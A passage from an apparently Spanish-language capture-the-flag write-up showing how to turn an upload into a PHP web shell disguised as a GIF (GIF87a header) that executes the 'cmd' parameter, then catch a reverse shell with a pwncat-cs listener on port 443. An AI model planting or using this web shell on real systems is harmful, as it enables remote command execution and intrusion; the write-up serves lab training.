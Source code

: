 Y podemos ver el comando ejecutado.
![Write-up Image](images/Screenshot_33.png)

Ahora vamos a hacer un pequeño ajuste a nuestra web shell para poder ejecutar los comandos que mandemos por el parámetro `cmd`
```console
cat -p test.gif
GIF87a;
<?php

    if (isset($_GET['cmd'])) {
        $cmd = $_GET['cmd'];
        echo "<pre>" . `{$cmd}` . "</pre>";
    }
?>
```

Y ahora ya tenemos una webshell funcional.
![Write-up Image](images/Screenshot_34.png)

Ahora ya podemos mandarnos una reverse shell poniéndonos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Utilizamos el típico one-liner para enviarnos una consola pero URL-Encodeado para evitar conflictos.
![Write-up Image](images/Screenshot_35.png)
